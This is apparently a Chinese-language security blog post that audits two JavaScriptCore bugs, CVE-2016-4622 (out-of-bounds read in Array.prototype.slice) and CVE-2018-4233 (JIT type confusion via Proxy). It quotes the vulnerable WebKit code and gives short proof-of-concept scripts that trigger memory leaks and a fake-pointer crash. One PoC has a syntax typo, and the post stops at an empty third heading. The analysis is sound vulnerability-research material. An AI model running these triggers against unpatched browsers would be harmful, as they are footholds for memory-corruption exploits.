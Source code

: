```yaml
---
layout: post
title:  "CVE 代码审计-updating"
categories: pwn
tags: pwn
excerpt: CVE 代码审计-updating
mathjax: true
---
```


* content
{:toc}

### Overview

开这个帖的目的是从代码审计的角度记录一些漏洞的原理，抛开后续利用的部分，保持对代码的敏感。

#### 1. JSC的Array.prototype.slice 越界访问 (CVE-2016-4622)

漏洞存在于JavascriptCore 的 %Array.prototype.slice 。

1. 首先获取array 的长度
2. 将参数（开始和结束的索引参数）转换为int，并将它们限制了[0，length）的长度范围
3. 如果fastpath 可用，把从begin到end的数据拷贝到一个新创建的array中，没有边界检查

问题在于参数转换为int时可以执行到用户定义的代码。参数绑定的valueOf函数会被调用，在这个callback中可以定义array 的长度，造成oob 越界访问

```cpp
EncodedJSValue JSC_HOST_CALL arrayProtoFuncSlice(ExecState* exec)
{
    // http://developer.netscape.com/docs/manuals/js/client/jsref/array.htm#1193713 or 15.4.4.10
    JSObject* thisObj = exec->thisValue().toThis(exec, StrictMode).toObject(exec);
    if (!thisObj)
        return JSValue::encode(JSValue());
    unsigned length = getLength(exec, thisObj);  //[1]
    if (exec->hadException())
        return JSValue::encode(jsUndefined());

    unsigned begin = argumentClampedIndexFromStartOrEnd(exec, 0, length);   // [2]
    unsigned end = argumentClampedIndexFromStartOrEnd(exec, 1, length, length);

    std::pair<SpeciesConstructResult, JSObject*> speciesResult = speciesConstructArray(exec, thisObj, end - begin);
    // We can only get an exception if we call some user function.
    if (UNLIKELY(speciesResult.first == SpeciesConstructResult::Exception))
        return JSValue::encode(jsUndefined());

    if (LIKELY(speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj))) {  //[3]
        if (JSArray* result = asArray(thisObj)->fastSlice(*exec, begin, end - begin))
            return JSValue::encode(result);
    }

    JSObject* result;
    if (speciesResult.first == SpeciesConstructResult::CreatedObject)
        result = speciesResult.second;
    else
        result = constructEmptyArray(exec, nullptr, end - begin);

    unsigned n = 0;
    for (unsigned k = begin; k < end; k++, n++) {
        JSValue v = getProperty(exec, thisObj, k);
        if (exec->hadException())
            return JSValue::encode(jsUndefined());
        if (v)
            result->putDirectIndex(exec, n, v);
    }
    setLength(exec, result, n);
    return JSValue::encode(result);
}
```

[代码地址](https://github.com/WebKit/webkit/blob/320b1fc3f6f47a31b6ccb4578bcea56c32c9e10b/Source/JavaScriptCore/runtime/ArrayPrototype.cpp#L848)


```cpp
static inline unsigned argumentClampedIndexFromStartOrEnd(ExecState* exec, int argument, unsigned length, unsigned undefinedValue = 0)
{
    JSValue value = exec->argument(argument);
    if (value.isUndefined())
        return undefinedValue;

    double indexDouble = value.toInteger(exec);
    if (indexDouble < 0) {
        indexDouble += length;
        return indexDouble < 0 ? 0 : static_cast<unsigned>(indexDouble);
    }
    return indexDouble > length ? length : static_cast<unsigned>(indexDouble);
}
```

poc

```js
var a = [ ];
for (var i = 0; i < 100; i++) { 
    a.push( i + 0.123);
}
var end = {
    valueOf : function () {
        a.length = 0;
        return 10;
    }
};
a.slice (0,end);
// [0.123,1.123,2.12199579146e-313,0,0,0,0,0,0,0]
```

问题1: 如何确保修改a.length后,a的长度真的改变了 ?

查看a.length 的实现 JSArray::setLength

```cpp
    unsigned lengthToClear = butterfly->publicLength() - newLength;
    unsigned costToAllocateNewButterfly = 64; // a heuristic.
    if (lengthToClear > newLength &&
        lengthToClear > costToAllocateNewButterfly) {
        reallocateAndShrinkButterfly(exec->vm(), newLength);
        return true;
    }
```
将length缩小，要确保lengthToClear 大于64才行，也就是新旧length 的差大于64 。所以创建了100个元素的array


#### 2. JSC的JIT compiler 优化问题(CVE-2018-4233) Pwn2Own '18

优化的目的是检测出冗余的check,并消灭它. 例如

```
v0 = LoadArgument 0  
CheckIsInteger v0
v1 = IntegerAdd v0 , 42  
CheckIsInteger v0  
v2 = IntegerMul v0 , 42
```
其中两次检查v0是否属于int就是冗余的检测，简单的相加后类型不会改变

通过控制流图追踪在每个路径上的check。必须考虑到两次check中object的类型变化,例如

```
v0 = LoadArgument 0 
CheckHasProperty v0 , "foo " 
v1 = LoadProperty v0 , "foo " 
v2 = ToNumber v1 
v3 = NumberAdd v2 , 1
CheckHasProperty v0 , "foo"
StoreProperty v0 , "foo ", v3
```
第二次CheckHasProperty的check就非常必要，在ToNumber的操作过程中可能触发任何Javascript code,foo属性也可能被删除。
为了检测这种情况，编译器需要了解IR中的所有操作及相关的副作用.缺少类型检查可能导致类型混淆漏洞。

CVE-2018-4233 漏洞中假定 CreateThis (用于在constructor中创建新object)没有任何副作用，在优化中消除了多余的check。然而通过Proxy中定义handler的get方法，可以在CreateThis过程中执行任意的javascript code

POC中JIT compiler假设Constructor 函数的第一个参数是double array.而且在开始也check通过，但是check过后，在Proxy callback中修改了array类型导致了double 和 JS value的类型混淆漏洞。


```js
function Constructor(a,v) { 
    a[0] = v;
}
var trigger = false;
var arg = null;
var handler = {
    get(target, prop) {
        if(trigger){
            arg[0] = {};
        }
        return target[prop];
    }
};
var EvilProxy = new Proxy(Constructor, handler);
for(var i=0;i<100000;i++>){
    new EvilProxy([1.1,2.2,3.3],13.37);
}
trigger = true;
arg = [1.1,2.2,3.3]
new EvilProxy(arg,3.54484805889626e−310);
arg[0]
```
3.54484805889626e−310 表示为 0x414141414141 ，被当作一个指针解析，造成了access violation

![](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/cve-updating/cve-2018-4233.png)

#### 3. 